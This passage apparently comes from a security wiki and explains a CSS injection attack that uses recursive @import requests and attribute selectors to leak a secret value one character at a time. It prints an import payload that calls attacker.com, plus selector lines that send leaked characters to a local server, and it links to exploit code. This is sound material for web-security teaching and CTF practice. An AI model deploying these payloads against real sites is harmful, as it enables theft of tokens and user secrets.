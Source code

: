 This was first showed by [**Pepe Vila**](https://vwzq.net/slides/2019-s3\_css\_injection\_attacks.pdf) and it works like this:

Instead of loading the same page once and again with tens of different payloads each time (like in the previous one), we are going to **load the page just once and just with an import to the attackers server** (this is the payload to send to the victim):

```css
@import url('//attacker.com:5001/start?');
```

1. The import is going to **receive some CSS script** from the attackers and the **browser will load it**.
2. The first part of the CSS script the attacker will send is **another `@import` to the attackers server again.**
   1. The attackers server won't respond this request yet, as we want to leak some chars and then respond this import with the payload to leak the next ones.
3. The second and bigger part of the payload is going to be an **attribute selector leakage payload**
   1. This will send to the attackers server the **first char of the secret and the last one**
4. Once the attackers server has received the **first and last char of the secret**, it will **respond the import requested in the step 2**.
   1. The response is going to be exactly the same as the **steps 2, 3 and 4**, but this time it will try to **find the second char of the secret and then penultimate**.

The attacker will f**ollow that loop until it manages to leak completely the secret**.

You can find the original [**Pepe Vila's code to exploit this here**](https://gist.github.com/cgvwzq/6260f0f0a47c009c87b4d46ce3808231) or you can find almost the [**same code but commented here**.](./#css-injection)


The script will try to discover 2 chars each time (from the begging and from the end) because the attribute selector allows to do things like:

```css
/* value^=  to match the beggining of the value*/
input[value^="0"]{--s0:url(http://localhost:5001/leak?pre=0)}

/* value$=  to match the ending of the value*/
input[value$="f"]{--e0:url(http://localhost:5001/leak?post=f)}
```

This allows the script to leak the secret faster.



Sometimes the script **doesn't detect correctly that the prefix + suffix discovered is already the complete flag** and it will continue forwards (in the prefix) and backwards (in the suffix) and at some point it will hang.\
No worries, just check the **output** because **you can see the flag there**.


### Other selectors

Other ways to access DOM parts with **CSS selectors**:

* **`.class-to-search:nth-child(2)`**: This will search the second item with class "class-to-search" in the DOM.
*   **`:empty`** selector: Used for example in [**this writeup**](https://github.com/b14d35/CTF-Writeups/tree/master/bi0sCTF%202022/Emo-Locker)**:**&#x20;
